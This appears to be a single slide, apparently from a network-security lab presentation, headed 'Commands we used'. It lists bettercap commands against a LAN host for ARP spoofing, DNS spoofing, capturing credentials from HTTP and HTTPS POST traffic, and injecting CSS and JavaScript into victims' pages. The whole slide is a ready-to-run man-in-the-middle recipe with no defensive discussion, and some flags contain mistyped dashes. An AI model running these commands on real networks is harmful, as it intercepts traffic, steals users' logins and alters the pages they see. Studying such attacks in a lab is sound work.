

Commands we used
Arp spoofing
sudo bettercap -T 192.168.1.2 -X

Dns spoofing
sudo bettercap -T 192.168.1.2 –dns dns.conf

Getting credentials from http
sudo bettercap 192.168.1.2 --proxy -P POST

Getting credentials from https:
sudo bettercap -T 192.168.1.2 --proxy –proxy-https  -P POST

Css injection
sudo bettercap -T 192.168.1.2 -X --proxy --proxy-module injectcss --css-file site.css

Js injection
sudo bettercap -T 192.168.1.2 -X --proxy --proxy-module injectjs -–js-file myjs.js